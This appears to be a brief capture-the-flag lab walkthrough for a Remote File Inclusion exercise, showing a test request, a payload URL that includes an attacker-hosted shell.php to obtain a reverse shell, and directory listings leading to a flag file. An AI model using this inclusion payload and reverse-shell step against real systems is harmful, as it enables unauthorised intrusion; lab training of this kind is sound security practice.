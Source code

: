 # Question
---
![](images/Pasted%20image%2020250218151542.png)

Let's begin by verifying if the target is vulnerable to `RFI`:

```
index.php?language=http://127.0.0.1/index.php
```


![](images/Pasted%20image%2020250218151738.png)

As seen, the page got included, this means this site is indeed vulnerable to `RFI`, let's try sending a reverse shell:


```
http://IP:PORTindex.php?language=http://IP:PORT/shell.php
```

Make sure to have the listener ready, once we execute the command, we get the following:

![](images/Pasted%20image%2020250218152111.png)

We got a reverse shell, way easier to move around rather than a webshell, let's look for our flag:

```
$ ls /
bin
boot
dev
etc
exercise
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
sys
tmp
usr
var
```

We found a `/exercise` directory, inside of this directory, we find `flag.txt`:

```
$ ls /exercise
flag.txt
```
